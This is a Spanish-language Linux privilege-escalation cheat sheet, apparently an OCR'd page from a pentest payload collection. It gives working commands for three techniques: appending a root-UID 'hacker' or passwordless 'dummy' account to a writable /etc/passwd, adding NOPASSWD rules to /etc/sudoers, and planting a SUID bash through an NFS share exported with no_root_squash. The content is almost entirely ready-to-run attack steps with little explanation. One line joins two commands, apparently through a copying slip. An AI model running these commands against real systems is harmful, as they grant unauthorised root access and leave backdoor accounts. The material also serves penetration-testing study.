 ## Writable `/etc/passwd`

Primero genere una contraseña con uno de los siguientes comandos.

```sh
openssl passwd -1 -salt hacker hacker 
mkpasswd -m SHA-512 hacker 
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")' 
```

Luego agregue el usuario hacker y agregue la contraseña generada.

```sh
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

Ahora puedes usar el comando `su` con `hacker:hacker`

Alternativamente, puede utilizar las siguientes líneas para agregar un usuario ficticio sin contraseña. ADVERTENCIA: podría degradar la seguridad actual de la máquina.

```sh
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd su - dummy
```

NOTA: En las plataformas BSD `/etc/passwd` se encuentra en `/etc/pwd.db` y `/etc/master.passwd` , también `/etc/shadow` pasa a llamarse `/etc/spwd.db`.

## Writable `/etc/sudoers`

```sh
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
```

# use SUDO without password

```sh
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers 
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

# NFS Root Squashing

Cuando aparece `no_root_squash` en `/etc/exports`, la carpeta se puede compartir y un usuario remoto puede montarla.
# control remoto comprueba el nombre de la carpeta

```sh
showmount -e 10.10.10.10

# create dir 
mkdir /tmp/nfsdir 

# mount directory
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 

# set suid permission 
chmod +s bash  
```